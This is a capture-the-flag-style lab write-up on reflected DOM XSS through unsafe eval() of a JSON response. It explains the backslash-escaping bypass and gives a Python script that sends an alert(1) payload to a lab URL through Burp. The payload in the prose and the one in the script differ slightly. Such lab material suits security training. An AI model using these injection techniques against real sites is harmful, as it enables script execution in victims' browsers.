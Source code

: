 ```yaml
---
title: 'XSS Lab 12'
description: 'Reflected DOM XSS via unsafe eval() usage in client-side JavaScript'
---
```



## Reflected DOM XSS

<div style="text-align: justify;">
  This lab demonstrates a reflected DOM vulnerability where user-supplied input is echoed by the server and later processed unsafely by client-side JavaScript. The application returns the search term inside a JSON response which is consumed by a script that uses `eval()` on the JSON. Although the server escapes quotation marks in the JSON response, it fails to escape backslashes — allowing a crafted search term to manipulate the resulting JavaScript and invoke `alert()`.

  The payload injects a backslash so that the server's escaping logic produces a double-backslash which effectively cancels the escaping of the quote. That closes the string early, then a subtraction operator separates expressions, `alert(1)` is executed, and the remainder of the object is closed and commented out. The generated response becomes something like:

```json
{"searchTerm":"\\\"-alert(1)}//", "results":[]}
```

When this is passed to `eval()`, it results in execution of `alert(1)`.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The search parameter is reflected in a JSON response named `search-results`.
- Client-side code reads that JSON and passes it to `eval()` (unsafe).
- The application escapes double-quotes in the JSON but **does not** escape backslashes.
- By injecting a backslash, the server produces a double-backslash which cancels the escaping, allowing the injected quote to terminate the string.
- Use a small expression to separate the injection from `alert(1)` (e.g. subtraction operator `-`), then close the object and comment out the rest with `}//`.
- The payload `\"-alert(1)}//` results in execution of `alert(1)` in the victim's browser.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

# Disable SSL warnings for Burp Suite
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set Burp Suite proxy
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    # Check if Burp Suite is running and listening on the configured proxy.
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_xss(url, payload):
    # Exploit XSS in search parameter.
    uri = f"/?search={payload}"
    try:
        res = requests.get(url + uri, verify=False, proxies=proxies)
        res.raise_for_status()
    except Exception as e:
        print(f"[-] Error sending payload request: {e}")
        return False

    session = requests.Session()
    try:
        res = session.get(url, verify=False, proxies=proxies)
    except Exception as e:
        print(f"[-] Error fetching page to verify: {e}")
        return False

    if "Congratulations" in res.text:
        print("[+] Lab solved 🎉")
        return True
    else:
        print("[-] lab not solved.")
        return False

def main():
    # Entry point of the script.

    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    # Step 1: Check Burp Suite
    check_burp()

    # Step 2: Define XSS payload (kept exactly as in your friend's working exploit)
    payload = r"""\"}-alert(1);//"""

    # Step 3: Attempt exploitation
    print("[*] Attempting XSS...")
    if exploit_xss(url, payload):
        print("[+] XSS successful!")
    else:
        print("[-] XSS unsuccessful.")

if __name__ == "__main__":
    main()
```